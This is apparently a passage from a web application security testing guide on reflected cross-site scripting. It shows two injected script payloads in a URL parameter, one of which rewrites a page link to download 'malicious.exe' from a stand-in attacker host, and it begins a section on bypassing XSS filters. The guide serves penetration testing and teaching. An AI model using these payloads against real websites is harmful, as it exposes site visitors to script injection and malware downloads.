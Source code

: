 Let's try to click on the following link and see what happens:

`http://example.com/index.php?user=<script>alert(123)</script>`

If no sanitization is applied this will result in the following popup:

![Alert](images/Alert.png)\
*Figure 4.8.1-2: XSS Example 1*

This indicates that there is an XSS vulnerability and it appears that the tester can execute code of his choice in anybody's browser if he clicks on the tester's link.

#### Example 2

Let's try other piece of code (link):

```txt
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>
```

This produces the following behavior:

![XSS Example 2](images/XSS_Example2.png)\
*Figure 4.8.1-3: XSS Example 2*

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site he controls.

### Bypass XSS Filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.
